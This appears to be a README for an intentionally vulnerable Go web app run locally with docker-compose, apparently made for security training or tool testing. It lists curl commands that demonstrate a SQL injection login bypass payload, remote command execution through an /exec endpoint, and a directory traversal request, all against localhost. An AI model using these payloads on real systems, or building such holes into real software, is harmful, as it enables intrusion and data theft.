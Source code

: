 **Demo steps**
1. Start containers:
```
cd <tarpit_go>
docker-compose up
```
2. DB Init:
Visit:
http://localhost:3000/init
or
```
curl -X GET http://localhost:3000/dbinit
```
3. Visit http://localhost:3000/login to see the demo; (There are also curl commands version attached)
4. Tear down the environment:
```
control + C
docker-compose down
```

**curl version**
1. Sql injection demo: 
//password='12346" OR ""="'
```
curl -X POST -d "username=admin&password=12346%22+OR+%22%22%3D+%22" http://localhost:3000/login
```
2. Remote code execution:
```
curl -X POST -d "cmd=ls -a" http://localhost:3000/exec
```
3. Directory traversal demo: (login first)
```
curl -X GET http://localhost:3000/image/../demo/demo.go
```